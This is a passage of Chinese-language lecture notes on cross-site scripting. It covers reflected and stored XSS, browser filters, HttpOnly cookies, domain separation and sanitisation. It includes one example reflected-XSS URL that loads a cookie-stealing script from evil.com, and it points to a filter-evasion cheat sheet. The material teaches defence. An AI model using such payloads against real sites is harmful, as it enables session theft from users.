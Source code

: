 ```
           // [For more examples of XSS exploits via
           //  malformed code, go here:
           //      https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
           // ] 
```

为什么跨站脚本攻击如此普遍？

+   动态网站在 HTML 页面中包含用户内容（例如，评论部分）。

+   网站托管上传的用户文档。

    +   HTML 文档可以包含任意的 Javascript 代码！

    +   非 HTML 文档可能被浏览器识别为 HTML。

+   不安全的 Javascript 程序可能直接执行来自外部方的代码（例如，eval()，setTimeout()等）。

## XSS 防御

+   Chrome 和 IE 具有内置功能，使用**启发式方法检测潜在的跨站脚本攻击**。

    +   例如：请求获取封闭页面的请求中是否包含即将执行的脚本？

        +   `http://foo.com?q=<script src="evil.com/cookieSteal.js"/>`

    +   如果是这样，这是有力的证据表明即将发生可疑事件！上述攻击称为“反射型 XSS 攻击”，因为服务器“反射”或“返回”攻击者提供的代码到用户的浏览器中，在受害页面的上下文中执行。

        +   这就是为什么我们在 CGI 示例中的第一个 XSS 攻击失败了--浏览器检测到 URL 中反射的 JavaScript，并在到达 CGI 服务器之前删除了末尾的`</script>`。

        +   然而...

    +   *过滤器并不具有 100%的覆盖率*，因为有许多编码 XSS 攻击的方式！[https://www.owasp.org/index.php/XSS*Filter*Evasion*Cheat*Sheet]

        +   这就是为什么我们的第二个 XSS 攻击成功了---浏览器被我们故意格式不正确的 HTML 搞糊涂了。

    +   问题：过滤器无法捕获**持久性 XSS 攻击**，在这种攻击中，服务器保存了攻击者提供的数据，然后永久分发给客户端。

        +   经典例子：一个允许用户发布 HTML 消息的 "评论" 部分。

        +   另一个例子：假设一个约会网站允许用户在他们的个人资料中包含 HTML。攻击者可以添加 HTML，当用户查看攻击者的个人资料时，会在*不同*的用户浏览器中运行！攻击者可以窃取用户的 cookie。

+   另一个 XSS 防御：**"httponly" cookies.**

    +   服务器可以告诉浏览器，客户端 JavaScript 不应该能够访问 cookie。[服务器通过在 "Set-Cookie" HTTP 响应值中添加 "HttpOnly" 令牌来实现这一点。]

    +   这只是部分防御，因为攻击者仍然可以发出包含用户 cookie 的请求（CSRF）。

+   **特权分离：** 使用一个单独的域来存放不受信任的内容。

    +   例如，Google 将不受信任的内容存储在 `googleusercontent.com` 中（例如，页面的缓存副本，Gmail 附件）。

    +   即使在不受信任的内容中可能存在 XSS，攻击者的代码也会在不同的来源中运行。

    +   如果 googleusercontent.com 中的内容指向 google.com 中的 URL，则仍可能存在问题。

+   **内容消毒：** 将不受信任的内容编码，以限制其解释方式。

    +   例如：**Django 模板：** 将输出页面定义为一堆 HTML，其中有一些 "孔" 可以插入外部内容。

